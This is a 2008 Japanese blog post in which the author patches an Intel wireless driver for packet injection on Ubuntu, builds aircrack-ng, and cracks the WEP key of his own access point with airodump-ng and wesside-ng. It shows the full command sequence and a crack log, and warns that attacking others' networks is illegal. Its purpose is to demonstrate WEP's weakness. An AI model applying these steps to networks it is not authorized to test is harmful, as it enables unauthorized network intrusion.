 ```yaml
---
title: MSI Wind+UbuntuでWEPキーをクラックする
author: 魚住 惇
type: post
date: 2008-08-21T04:39:12+00:00
url: /msi-windubuntu-wep-crack-132.html
thumbnail: /wp-content/uploads/2008/08/082108-0437-msiwindubun1.png
has_been_twittered:
  - failed
twitter_failure_code:
  - 400
twitter_failure_reason:
  - Settings do not permit the auto-tweeting of old posts
views:
  - 67
scc_follow_count_feedly:
  - 37
categories:
  - Wind＋Ubuntu

---
```

HDDを160GBにしたので、色々と実験する為だけのUbuntuをインストールしました。

これで、いつも使っているUbuntuをそのままにして、

新しいアプリケーションやKernelを試すのを今回インストールした方にしました。

そして今回は、WindにインストールしたUbuntuで無線LANのWEPキーをクラックしてみました。

<!--more-->

<span style="color: red;"><b>※今回の記事は、WEPの脆弱性について身をもって知ってもらう為に書きました。 </b></span> <span style="color: red;"><b>クラックするのは自分で設定したアクセスポイントだけにしてください！ </b></span> <span style="color: red;"><b>　他人の家庭のアクセスポイントをクラックすると、法律に触れます！</b> </span>

まず、今回の環境はこんな感じです。

  * Ubuntu7.10をインストールした後、**8.04にアップグレードした直後**
  * 無線LANは**intel 4965 agn** に換装済み
  * Kernelのバージョンは**2.6.24-19-generic** 

<span style="text-decoration: underline;">1.無線LANの通信でPacket injectionに対応させる </span> /usr/srcで作業するので、移動します。

**cd /usr/src** 

wgetコマンドで、必要なファイルをダウンロードします。

**wget http://dl.aircrack-ng.org/iw.tar.bz2** **wget http://www.orbit-lab.org/kernel/compat-wireless-2.6/2008/06/compat-wireless-2008-06-25.tar.bz2** **wget http://patches.aircrack-ng.org/mac80211\_2.6.26-rc8-wl\_frag.patch** **wget http://www.intellinuxwireless.org/iwlwifi/downloads/iwlwifi-4965-ucode-4.44.1.20.tgz** 

このファイルもダウンロードして、/usr/srcにコピーしておきます。

※コピーはルート権限ですること

**http://tinyshell.be/aircrackng/forum/index.php?action=dlattach;topic=2898.0;id=360** 

ファイルが揃ったら、解凍してコンパイルです。

<span style="color: red;"><b>sudo -i </b></span>

※毎回sudoするのが面倒なので、ルートに入ります

**tar -xvjf compat-wireless-2008-06-25.tar.bz2** **cd compat-wireless-2008-06-25** **apt-get install patch** **patch -p1 < /usr/src/0001-iwlwifi-Fix-packet-injection-in-iwl3945-and-iwl4965.patch** **patch -p1 < /usr/src/mac80211\_2.6.26-rc8-wl\_frag.patch** **make** **make install** **make load** **modprobe -r iwl4965** **modprobe iwl4965** **cd ..** **tar -vxzf iwlwifi-4965-ucode-4.44.1.20.tgz** **cp ./iwlwifi-4965-ucode-4.44.1.20/iwlwifi-4965-1.ucode /lib/firmware/** **tar -xvjf iw.tar.bz2** **make** **make install** 

これで無線LANデバイスの設定が終わりました。

一度ここで再起動します。

<span style="text-decoration: underline;">2.Aircrack-ngをインストールする </span> まず、開発環境を作ります

**apt-get install libc6-dev libssl-dev build-essentials** **apt-get install libnl-dev** 

ソースコードをコンパイルします

**wget http://download.aircrack-ng.org/aircrack-ng-1.0-rc1.tar.gz** **tar -vzxf aircrack-ng-1.0-rc1.tar.gz** **cd aircrack-ng-1.0-rc1** **make** **make install**

<span style="text-decoration: underline;">3.実際にWEPキーをクラックしてみる </span> まず、無線LANをモニターモードに設定します

**airmon-ng start wlan0** 

これで、**ifconfig**コマンドでインターフェイスを調べると、

モニターモードのNICが作成されます。

俺の環境の場合は、mon0というNICが新しくできていました。

次に、無線APを確認します。

それでは、「jun_room」をクラックしてみましょう。

{{< figure src="/wp-content/uploads/2008/08/082108-0437-msiwindubun1.png" alt="" >}} 

まず、BSSIDを調べます。

**airodump-ng mon0** 

このコマンドで、周辺の無線APが通信しているMACアドレスを調べることができます

{{< figure src="/wp-content/uploads/2008/08/082108-0437-msiwindubun2.png" alt="" >}} 

Jun_roomのBSSIDが判明しましたね

そしていよいよクラックです

**wesside-ng -v 00:07:40:XX:XX:XX -i mon0** 

-vでBSSID,-iでインターフェイスを指定します

以下、ログです。

[12:59:26] WARNING: Appending in wep.cap

[12:59:26] WARNING: reading prga from prga.log

[12:59:26] Got 144 bytes of prga IV=(87:4d:59) PRGA=29 71 32 E6 53 26 18 D4 47 6A CB B1 05 36 54 AC 06 72 D3 1D 0B 87 BB D7 E2 9B BD EE 85 B9 4C 34 90 63 29 F0 27 FC 3D 34 57 AA 1E 5E 25 61 70 41 66 DD 10 B3 F7 82 83 8A 82 D6 D6 CB 4A 98 46 6E 57 3A 69 84 1E 18 0A CD DF 00 0F E4 41 BC 40 41 8C 3F 87 B0 A7 DC 07 F5 DA 81 6B 94 3E D6 6C E3 45 00 6D D8 22 77 EB 59 A6 10 74 85 15 60 1F 13 7D 25 59 F7 E9 DC EE 9F 08 20 B5 77 D4 D0 EA 06 1B 0B 00 F3 BE 41 AE 91 D7 73 7B E0 6C BC C8 C8

[12:59:26] Looking for a victim&#8230;

[12:59:26] Found SSID(jun_room) BSS=(00:07:40:XX:XX:XX) chan=1

[12:59:26] Authenticated

[12:59:26] Associated (ID=6)

?中略?

[13:00:51] Starting crack PID=15877

[13:00:51] KEY=(ここにキーが表示されます)

<span style="color: red;">Owned in 1.42 minutes </span>

[13:00:51] Dying&#8230;

[13:00:51] Stopping crack PID=15877

[13:00:51] KEY=(ここにキーが表示されます)

<span style="color: red;">Owned in 1.42 minutes </span>

[13:00:51] Dying&#8230;

[13:00:51] Dying&#8230;

なんと、**2分かからなかった**とな(´ﾍ｀；)

みなさん、如何だったでしょうか。

WEPはもう駄目です。

WPAに変えるか、SSIDを隠しましょう。